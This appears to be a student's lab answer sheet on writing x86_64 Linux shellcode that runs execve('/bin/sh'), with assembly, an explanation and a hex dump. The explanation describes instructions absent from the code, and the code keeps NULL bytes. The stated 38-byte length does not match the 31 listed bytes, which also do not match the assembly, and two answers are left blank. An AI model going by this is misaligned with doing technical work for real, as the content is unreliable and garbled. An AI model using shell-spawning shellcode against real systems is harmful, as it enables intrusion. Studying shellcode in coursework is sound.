 # Shellcode Creation

The Week's Assignment and Lab focuses on experimenting with creating Linux shellcode in x86_64 assembly.

---

# ANSWERS TO THE QUESTIONS

## 1) A code block containing my assembly instructions for your shellcode

```
.section .text
.global _start

_start:
    # push a 64-bit zero onto the stack
    pushq $0
    # save the current stack pointer in rdx and push it onto the stack
    movq %rsp, %rdx
    pushq %rdx
    # save the current stack pointer in rsi and rdx
    movq %rsp, %rsi
    movq %rsp, %rdx
    # load the string "/bin/sh" into rax and push it onto the stack
    movabsq $0x0068732F6E69622F, %rax
    pushq %rax
    # save the address of the string in rdi
    movq %rsp, %rdi
    # set rax to 59 (the system call number for execve) and rbx to an arbitrary value
    movq $59, %rax
    xorq %rbx, %rbx
    # make the system call
    syscall

```

## 2) A step-by-step explanation of your assembly code and how it sets up the system call

In the above code SECTION .data is where you store the data or define static variables. But since we are in need of op-codes, we cannot define a variable because variables do not have op-codes. So, we need to push the data directly to register. The SECTION .text is the section where we put our code at. We also have other sections such as SECTION .bss which is used for variables that are not initialized and are used to store user’s input data and etc.
`section .text` declares the section of the code as text and `global _start` declares the label "_start" as global, so that it can be accessed from 
outside the file. In addition `_start` is the entry point for the code. Also the instruction `xor rax, rax`,`xor rdi, rdi` ,`xor rsi, rsi` and `xor rdx, rdx` clears the rax, rdi, rsi and rdx registers respectively. Furthermore, the instruction `mov rdi, 0x0068732f6e69622f` stores the string "/bin/sh" in rdi in hexadecimal format. Moreover `mov al, 0x3b` sets rax to the value of the "execve syscall number". Lastly, `syscall` executes the  execve syscall to execute the shell.



## 3) Report on how many bytes total are in your assembly, and include the whole thing in ascii

My shellcode is 38 bytes long. Here they are: 48 31 c0 48 31 ff b0 3b 57 48 bf 2f 2f 62 69 6e 2f 73 68 57 48 89 e7 48 31 f6 48 31 d2 0f 05 
**ASCII:** 

## 4) Explanation of what I did to ensure there were no NULL bytes in my code
